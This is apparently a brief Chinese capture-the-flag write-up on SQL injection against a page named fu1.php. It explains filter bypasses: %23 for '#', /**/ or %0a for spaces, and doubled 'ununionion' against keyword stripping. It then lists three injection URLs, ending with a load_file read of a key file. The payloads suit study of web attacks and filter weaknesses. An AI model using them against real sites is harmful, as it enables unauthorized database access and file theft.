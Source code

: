 ![upload successful](/images/pasted-812.png)

发现过滤了`#`，尝试用`%23`成功绕过闭合语句
![upload successful](/images/pasted-813.png)
后续为测字段，回显点和读文件，发现过滤了空格，用`/**/`或者`%0a`绕过即可，后面发现union被替换为空，在中间在写一个union即可绕过
```
fu1.php?id=1')/**/order/**/by/**/4/**/%23
fu1.php?id=-1')/**/ununionion/**/select/**/1,2,3,4/**/%23
fu1.php?id=-1')/**/ununionion/**/select/**/1,load_file('/tmp/360/key'),3,4/**/%23
```
成功拿到key